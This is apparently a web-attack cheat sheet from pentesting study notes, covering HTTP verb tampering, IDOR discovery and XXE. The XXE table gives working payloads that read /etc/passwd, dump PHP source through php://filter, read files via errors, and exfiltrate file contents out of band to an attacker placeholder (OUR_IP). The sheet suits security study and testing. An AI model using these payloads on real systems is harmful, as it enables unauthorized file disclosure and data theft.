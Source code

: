 ### HTTP Verb Tampering

`HTTP Method`

- `HEAD`
    
- `PUT`
    
- `DELETE`
    
- `OPTIONS`
    
- `PATCH`
    

|   |   |
|---|---|
|**Command**|**Description**|
|`-X OPTIONS`|Set HTTP Method with Curl|

### IDOR

`Identify IDORS`

- In `URL parameters & APIs`
    
- In `AJAX Calls`
    
- By `understanding reference hashing/encoding`
    
- By `comparing user roles`
    

|   |   |
|---|---|
|**Command**|**Description**|
|`md5sum`|MD5 hash a string|
|`base64`|Base64 encode a string|

### XXE

|                                                                                    |                                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| **Code**                                                                           | **Description**                                |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |
